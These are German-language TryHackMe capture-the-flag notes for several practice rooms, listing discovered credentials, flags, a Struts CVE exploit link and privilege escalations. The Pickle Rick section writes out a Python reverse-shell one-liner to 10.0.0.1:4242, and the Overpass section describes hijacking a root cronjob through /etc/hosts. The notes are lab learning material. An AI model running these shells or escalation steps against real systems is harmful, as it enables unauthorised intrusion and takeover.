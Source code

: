 # TryHackMe

## Mr.Robot

### Key 1
Hinweis in robots.txt gefunden:
```
GET http://10.10.237.208/robots.txt

User-agent: *
fsocity.dic
key-1-of-3.txt

```
```
GET http://10.10.237.208/key-1-of-3.txt

073403c8a58a1f80d943455fb30724b9
```

Die Datei fsocity.dic ist ein Dictionary welche mögliche Passwörter beinhaltet. In der Datei steht alles doppelt und dreifach es empfiehlt sich die Datei vorher zu bereinigen.
```
sort fsocity.dic | uniq > unicFsocity
```

### Key 2 
Tipp: White coloured font



### wordpress 
logins
user: ```Elliot```
passwd: ```ER28-0652```

user: ```mich05654```
passwd: ```Dylan_2791```

Von dort kann man eine [Reverse Shell mit PHP](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) auf machen und sich als user `deamon` anmelden.
Es gibt einen Benutzer namens `robot`. In seine Home-Verzeichnis liegen folgende Dateien:
```
$ ls -al /home/robot
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
```

Inhalt von `password.raw-md5`:
```
robot:c3fcd3d76192e4007dfb496cca67e13b
```
Dazu existiert ein Eintrag in einem Rainbow-Table: 
```
abcdefghijklmnopqrstuvwxyz
```

Die Shell konnten wir mit folgendem Befehl upgraden:
```
python -c 'import pty; pty.spawn("/bin/bash")'
```

Dadurch konnten wir uns als `robot` anmelden und die 2te Flag auslesen:
```
robot@linux:/$ cat /home/robot/key-2-of-3.txt
822c73956184f694993bede3eb39f959
```

#### Web Console
prints "Mr. Robot : Who Is Mr. Robot : \<Topic like FSociety Gallery\> : Potho"


### commands

#### prepare
trailer like, we will take 100.000$ and give it to you ... whoismrrobot.com

#### fsociety
```are you reade to join fsociety ?```

#### inform
article 1
stports hero cheated -> Mr Robot oure fault to choose him as a hero

article 2 *(first article look different)*
bilionair builds roket -> Mr Robot we give him all oure money, let him go and screw another planet

article 3
middle easr credit card usage/infection spreads
Mr Robot laughst that they will get dept and that this is not a solution
also Mr Robot will/has delete the world's debt

#### question
patriot executive capitalist businessman + sprüche

#### wakeup
trailer, 1% stuff

#### join 
you can enter an email address and it will be posted to the server at /join
but you dont get an email
*vulnerability?*

### not the falg
c3fcd3d76192e4007dfb496cca67e13b


---

## Pickle Rick

Server: ```10.10.115.113```
Paths
- /login.php
- /assests
- /robots.txt

login username: ```R1ckRul3s``` 
*(found in page source code)*
password: ```Wubbalubbadubdub```
*(found on robots.txt)*

### useless
base64 code on /portal.php source code
```
Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==
```

-> rabbit hole

#### python3 script

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

### Antwort 1:
```mr. meeseek hair```
*(beim einloggen in der web shell, mit ls -lah)*

### Antwort 2:
```1 jerry tear```
*(ricks home folder)*

### Antwort 3:
```fleeb juice```
*(in history of user ubuntu; or in /root/3rd.txt)*



---


## basicpentestingjt

### SSH
- Gecrackt mit hydra *(rockyou.txt)*
- Der Benutzername stand in einer Datei auf dem Samba "guest share" 
*(ohne credentials; file: staff.txt)*
```
user: jan
pw: armando

user: kay
ssh private key pass: beeswax
```

### Apache Struts CVE
- Information gefunden in http://10.10.58.211/development/dev.txt
- Ein Archiv fuer die besondere Version von Apache Struts mit dem erwähnten REST Plugin befindet sich in /opt.
Daraus ergibt sich folgende URL: http://10.10.58.211:8080/struts2-rest-showcase-2.5.12
- CVE-2017–9805
- CVE Exploit Walktrough: http://www.sec-art.net/2020/02/exploiting-apache-struts25-rest-plugin.html
Exploit Script: https://www.exploit-db.com/exploits/42627

### Tomcat
Der Benutzername konnte durch den obrige Exploit aus /opt/tomcat-latest/conf/tomcat-users.xml entommen werden.
```
user: tomcat1
pw: changethistomcatpasslater
```

### Final
Der private Key von kay konnte von allen gelesen werden. Wir haben den Key kopiert und mit JohnTheRipper geknackt. *(pw: beeswax)*
```
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```

## Overpass 1
```
Enter /admin area by setting the cookie SecretToken to anything

SSH private key encryption password of user james: james13

users.txt: thm{65c1aaf000506e56996822c6281e6bf7}

.overpass encoded password for user james: saydrawnlyingpicture

/etc/host is writeable for everyone and there is a root cronjob that is being executed every minute downloading a script from overpass.thm and executing it
host your own script and modify /etc/host with your ip, we wrote "usermod -aG sudo james"

root.txt: thm{7f336f8c359dbac18d54fdd64ea753bb}
```